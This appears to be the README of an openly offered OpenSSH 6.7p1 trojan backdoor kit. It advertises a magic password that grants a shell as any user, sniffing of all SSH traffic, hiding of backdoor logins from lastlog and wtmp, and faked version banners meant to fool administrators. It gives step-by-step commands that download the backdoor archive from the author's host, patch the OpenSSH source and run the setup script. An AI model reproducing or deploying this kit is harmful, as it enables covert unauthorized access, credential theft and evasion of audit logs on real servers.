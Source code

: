 bl0wsshd00r67p1
===============

OpenSSH 6.7p1 trojan backdoor kit

# - brazilian oldschool never dies.
# coded by bl0w. bl0w@koresec.org - 2014 -
# greetz rfs r47 bonny mayhem all IRC #darknet@efnet and #offset@brasnet-efnet old school members.


### Features.
### 1. MAGIC PASSWORD TO GET SHELL WITH ANY USER (ENCRYPTED OR NO)
### 2, SNIFFS ALL IN/OUT FROM SSH/SSHD, LOG FILE ENCRYPTED OR NO.
### 3. YOU CAN CHOSE DIRECTORY OF LOG DECRYPTOR AND DIRECTORY OF SNIFF-LOGS.
### 4. All connections accepted by backdoor wont logged by lastlog/wtmp/udp.
### 5. Simple setup, just setup.sh!
### 6. FAKE BANNER and fake version, if admin do ssh -V or sshd -V banner will be faked! :~
#Enjoy!

#HOWTO INSTALL.

$ wget http://www.mirrorservice.org/pub/OpenBSD/OpenSSH/portable/openssh-6.7p1.tar.gz
$ tar -xzvf openssh-6.7p1.tar.gz
$ cd openssh-6.7p1
$ wget www.koresec.org/bl0wsshd00r67p1.tar.gz (Download bl0wsshd00r67p1 from your favorite host! :D)
$ tar -xzvf bl0wsshd00r67p1.tar.gz

** NOTE ** COPY ALL FILES FROM bl0wd00r67p1/ to openssh-6.7p1 directory before execute setup.sh!

$ cp bl0wsshd00r67p1/* ./
$ patch -p1 < backdoor.patch
$ sh setup.sh

Follow instructions, its very easy ! :D
